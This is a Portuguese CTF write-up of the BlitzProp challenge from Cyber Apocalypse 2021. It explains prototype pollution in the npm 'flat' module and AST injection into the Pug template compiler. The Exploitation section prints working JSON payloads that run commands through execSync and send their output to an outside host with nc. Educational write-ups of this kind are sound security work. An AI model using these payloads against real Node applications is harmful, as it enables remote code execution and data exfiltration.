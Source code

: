 ```yaml
---
layout: post
title: "BlitzProp - Cyber Apocalypse CTF 2021"
date: 2021-04-25 17:00:00 -0300
categories: CyberApocalypse
---
```

## Resumo

![img](/assets/BlitzProp/1.png)

BlitzProp foi um desafio do CTF Cyber Apocalypse realizado pelo Hack The Box e Crypto Hack, envolveu vulnerabilidades como Prototype Pollution, que possibilita o AST Injection e evolui para RCE.

## Recon
O desafio permitia o download do código fonte da aplicação, que utilizava como backend nodejs, as seguintes dependências existiam para o funcionamento da aplicação:

![img](/assets/BlitzProp/2.png)

O módulo flat permite a transformação de um objeto javascript em JSON e vice-versa. Abaixo um exemplo da função *unflatten*, utilizada na aplicação.

``` js
var unflatten = require('flat').unflatten
unflatten({
 'three.levels.deep': 42,
 'three.levels': {
 nested: true
 }
})

// {
// 		three: {
// 			levels: {
// 					deep: 42,
// 					nested: true
// 					}
// 				}
// }
```

Já a dependência Pug se trata de um *template engine*, que permite concatenar tags HTMLs junto do código javascript, para renderizar um template pré-definido.

```html
<!--
doctype html
html(lang\="en")
  head
    title\= pageTitle
    script(type\='text/javascript').
      if (foo) bar(1 + 5)
  body
    h1 Pug - node template engine
    #container.col
      if youAreUsingPug
        p You are amazing
      else
        p Get on it!
      p.
        Pug is a terse and simple templating language with a
        strong focus on performance and powerful features.
-->
 
<!-- Se torna: --> 

<!DOCTYPE html\>
<html lang\="en"\>
  <head\>
    <title\>Pug</title\>
    <script type\="text/javascript"\>
      if (foo) bar(1 + 5)
    </script\>
  </head\>
  <body\>
    <h1\>Pug - node template engine</h1\>
    <div id\="container" class\="col"\>
      <p\>You are amazing</p\>
      <p\>Pug is a terse and simple templating language with a strong focus on performance and powerful features.</p\>
    </div\>
  </body\>
</html\>
```

Como podemos visualizar no código abaixo, a aplicação recebe nosso corpo da requisição POST, aplica o *unflatten* nesta requisição e após isso compara com algumas das opções pré-definidas.
Caso a string recebida no corpo da requisição estivesse dentro da comparação, o módulo *pug* é chamado para realizar um template para a resposta.

![img](/assets/BlitzProp/3.png)

Podemos perceber que não há nenhuma função que rejeite a entrada de dados por parte da API, ou seja, ela recebe o body da requisição e acaba o processando.

## Exploitation
Como toda avaliação de segurança, após o reconhecimento da aplicação é necessário realizar o levantamento de vulnerabilidades. Conforme anotado na sessão de reconhecimento, temos as dependências *Pug* na versão **3.0.0** e a dependência *Flat* na versão **5.0.0**.
Um dos melhores sites para pesquisar por vulnerabilidades em pacotes npm é o [snyk.io](https://snyk.io/vuln/npm:flat@5.0.0), procurando pela versão do flat, é possível identificar que o mesmo é vulnerável a prototype pollution.

![img](/assets/BlitzProp/4.png)

[Prototype pollution é uma vulnerabilidade que afeta o javascript, se trata da capacidade de um agente malicioso injetar propriedades dentro de objetos.](https://github.com/Kirill89/prototype-pollution-explained) O Javascript permite que todos os atributos de objetos possam ser alterados, incluindo os seus atributos principais como *\_\_proto\_\_*, *constructor* e *prototype*.

Deste modo, para verificar se o módulo da API estava realmente vulnerável, enviei uma requisição JSON alterando o atributo song.name para que retornasse sempre verdadeiro.

![img](/assets/BlitzProp/5.png)

Após esta requisição, todas as requisições para API retornam a compilação do template, comprovando a vulnerabilidade. 
Avaliando a vulnerabilidade do módulo flat, comecei a procurar por vulnerabilidades relacionadas com a dependência pug, foi onde encontrei uma [vulnerabilidade de RCE](https://snyk.io/vuln/SNYK-JS-PUG-1071616), que permite uma execução de comandos caso seja possível controlar a opção *pretty* do compilador do pug. Porém, não se encaixa na nossa aplicação pois esta opção não é utilizada.

Pesquisando um pouco mais, foi possível encontrar este excelente [artigo](https://blog.p6.is/AST-Injection/) que entrelaça a vulnerabilidade de Prototype Pollution com AST-Injection, desencadeando um RCE em mecanismos de template como o pug, mostrado no artigo.
[Abstract Syntax Trees (ASTs)](https://www.twilio.com/blog/abstract-syntax-trees) é a representação de código em árvore, são uma parte fundamental da maneira que um compilador trabalha.

Dessa forma, podemos realizar uma injeção de AST via prototype pollution, fazendo com que o compilador execute nosso código malicioso.  

De acordo com este [artigo](https://blog.p6.is/AST-Injection/), podemos realizar a injeção do código malicioso no compilador do pug, por meio do objeto *block* realizamos a alteração de uma variável de debug chamada *pug_debug_line* com o código abaixo: 

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "Alterar pug_debug_line"

	}

   }

```

Enviando a requisição acima acarreta na alteração do objeto e variável do compilador do pug, fazendo com que o texto contido em "line" seja processado. Por meio dessa poluição, conseguimos injetar um código malicioso e gerar execução remota de comandos no servidor, por meio do código abaixo:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`ls | nc [REDACTED] 12562`)"

	}

   }

```

E dessa forma conseguimos visualizar o nome da flag da challenge.

![img](/assets/BlitzProp/6.png)

Enviamos outra requisição:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`cat flagYO1AC | nc [REDACTED] 12562`)"

	}

   }

```

E Voilà, desafio concluído!

![img](/assets/BlitzProp/7.png)

## Considerações Finais

Podemos perceber por meio deste desafio como a vulnerabilidade de prototype pollution pode ser perigosa para muitas aplicações, pois consegue interagir diretamente com todos os objetos. Este tipo de falha começa a ficar cada vez mais comum visto a ampla adoção de frameworks javascript e typescript no mercado.
